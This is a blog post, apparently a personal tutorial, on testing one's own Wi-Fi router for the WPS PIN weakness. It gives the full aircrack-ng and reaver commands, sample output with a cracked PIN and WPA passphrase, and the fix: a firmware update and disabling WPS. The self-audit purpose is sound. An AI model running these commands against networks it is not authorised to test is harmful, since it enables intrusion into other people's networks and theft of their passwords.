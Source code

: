 ```yaml
---
title: "Is My Access Point Vulnerable To A WPS Attack?"
slug: access-point-vulnerable-wps-attack
date: 2017-08-23 00:00:00
---
```


In order to test this, you **must** have a WiFi card with monitor mode. The [
Penguin Wireless N USB Adapter for GNU / Linux (TPE-N150USB)](https://www.thinkpenguin.com/gnu-linux/penguin-wireless-n-usb-adapter-gnu-linux-tpe-n150usb) worked well for me.

![TPE-N150USB](https://www.thinkpenguin.com/files/wireless-n-usb-adapter-zero-1.jpg)

ThinkPenguin USB WiFi cards typically use Atheros chipsets, and because ThinkPenguin uses predictable chipsets you can be certain you _will_ receive an Atheros chipset for this device{{% cite "https://www.thinkpenguin.com/about" %}}. With this card, you can use monitor mode. The range not be great, but if you are testing the security of your own home network, range should not matter much.

Install the necessary tools.

```
sudo apt-get install \
	aircrack-ng \
	reaver
```

Disable your WiFi interface.

```
sudo ifconfig wlan0 down
```

Enable monitor mode for your WiFi interface.

```
sudo airmon-ng start wlan0
```

Note the name of the monitoring device output from the command above. In my case, it is `wlan0mon`.

Kill processes that may conflict with airmon tools.

```
sudo airmon-ng check kill
```

Scan for a network. `PWR` indicates signal strength. A number like `-20` is superior to a number like `-74`. The greater number is superior, and `-20` is greater than `-74`.

```
sudo airodump-ng wlan0mon
```

Try to test for the WPS vulnerability against the AP using `reaver`, which is specifically designed for this exploit. Specify your device's channel with `-c` and the BSSID (mac of the router) with `-b`.

```
sudo reaver \
	-i wlan0mon \
	-b 22:46:BA:34:CB:18 \
	-vv \
	-L \
	-N \
	-d 30 \
	-T 1
```

If your access point is vulnerable, the WPS pin will eventually be discovered.

```
[+] Pin cracked in 273832 seconds
[+] WPS PIN: '29701453'
[+] WPA PSK: 'thepassword123'
[+] AP SSID: 'MyAccessPoint'
```

Success!

_If `reaver` only shows you the PIN and not the `PSK`, you can find it like so._

```
sudo reaver \
	-i wlan0mon \
	-p 29701453 \
	-b 22:46:BA:34:CB:18 \
	-vv
```

My router was compromised in 273832 seconds, which is just over 3 days.

My [Netgear WNR2000v3](https://www.netgear.com/support/product/WNR2000v3.aspx) was then updated to the latest firmware as listed here.

```
Current Firmware Version:     V1.0.1.26
New Firmware Version:         V1.1.2.18

Current GUI Language Version: V1.0.0.55
New GUI Language Version:     V1.0.0.175
```

This upgrade automatically enables a 3 second lockout for failed WPS attempts.

Unfortunately, `reaver` did **not** seem to care, and went to work hacking the PIN just as it did before. It was not affected by that lockout setting.

I then disabled WPS entirely in the admin interface. As [many](https://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver) [articles](https://arstechnica.com/information-technology/2012/01/hands-on-hacking-wifi-protected-setup-with-reaver/) [mention](https://www.howtogeek.com/176124/wi-fi-protected-setup-wps-is-insecure-heres-why-you-should-disable-it/), some routers don't _actually_ disable WPS even if the interface implies it is disabled.

In cases like that, it seems the only reliable preventative measure is to either get a router that actually disables WPS, or install [DD-WRT](https://www.dd-wrt.com/site/), [OpenWRT](https://openwrt.org/), or [LEDE](https://lede-project.org/) on your router.

Fortunately, this firmware upgrade along with disabling WPS actually worked in my case, and `reaver` was **unable to determine my PIN**.

# Citations

* [Constant receive timeout (0x03), or WPS transaction fail (0x02) with rtl8187](https://github.com/shift/reaver-wps/issues/183)
* [WPS Cracking with Reaver](https://www.pwnieexpress.com/blog/wps-cracking-with-reaver)
* [How to Crack a Wi-Fi Network's WPA Password with Reaver](https://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver)
* [Hands-on: hacking WiFi Protected Setup with Reaver](https://arstechnica.com/information-technology/2012/01/hands-on-hacking-wifi-protected-setup-with-reaver/)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [How do I install bully and mdk3 on Ubuntu 16.04 (Xenial Xerus)?](https://askubuntu.com/questions/867071/how-do-i-install-bully-and-mdk3-on-ubuntu-16-04-xenial-xerus)
* [aireplay invalid destination MAC address](https://forum.aircrack-ng.org/index.php?topic=1495.0)
